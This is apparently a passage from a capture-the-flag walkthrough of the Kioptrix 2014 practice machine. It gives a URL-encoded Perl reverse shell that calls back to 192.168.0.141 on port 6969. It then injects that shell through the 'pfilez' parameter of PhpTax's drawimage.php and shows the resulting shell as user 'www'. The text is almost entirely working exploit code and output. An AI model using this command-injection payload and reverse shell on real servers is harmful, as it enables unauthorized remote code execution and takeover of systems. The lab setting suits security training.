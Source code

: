 ```
perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.0.141%22%3B%24p%3D6969%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22%2Fbin%2Fsh%20-i%22)%3B%7D%3B%27
```

<img src="../img/Pasted image 20240626125632.png" alt="Example Image" width="1080"/>

paste the URL encoded string into Payload

```
http://192.168.0.170:8080/phptax/drawimage.php?pfilez=xxx;perl%20-e%20%27use%20Socket%3B%24i%3D%22192.168.0.141%22%3B%24p%3D6969%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22%2Fbin%2Fsh%20-i%22)%3B%7D%3B%27;pdf=make
```

<img src="../img/Pasted image 20240626125606.png" alt="Example Image" width="1080"/>

<img src="../img/Pasted image 20240626125641.png" alt="Example Image" width="1080"/>

```
whoami
www
uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```
